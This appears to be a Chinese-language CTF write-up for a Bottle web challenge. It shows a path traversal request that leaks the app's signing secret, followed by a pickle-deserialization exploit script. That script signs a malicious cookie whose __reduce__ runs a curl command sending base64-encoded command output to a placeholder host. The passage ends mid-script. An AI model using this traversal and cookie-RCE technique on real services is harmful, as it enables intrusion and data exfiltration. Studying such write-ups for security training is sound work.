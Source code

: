 ```python
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

`/show?id=../../../../../../app/config/secret.py`找到secret`sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"`

先成为admin看看有没有什么东西
![图 3](https://s2.loli.net/2022/10/02/PGVurZn9R6w4ISf.png)

然后把admin的模板文件读出来了也没找到什么

```html
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
        Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

看bottle的源码发现是cookie_decode的时候会用pickle.loads,而pickle.loads会将反序列化得到的字符串当作命令执行，因此可以实现RCE。

> pickle反序列化可以参考文章`<https://ucasers.cn/python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B8%8E%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/>`

EXP:

```python
from bottle import route, run,response
import os


sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

class exp():
    def __reduce__(self):
        # cmd = "curl http://x.x.x.x:7777/123?res=`ls -la /|base64 -w 0`"
        cmd = "curl http://x.x.x.x:7777/123?res=`/flag|base64 -w 0`"
        return (os.system, (cmd,))


@route("/sign")
def index():
    try:
        # session = {"name": "admin"}
        session = exp()
        response.set_cookie("name", session, secret=sekai)
        return "success"
    except:
        return "pls no hax"


if __name__ == "__main__":
```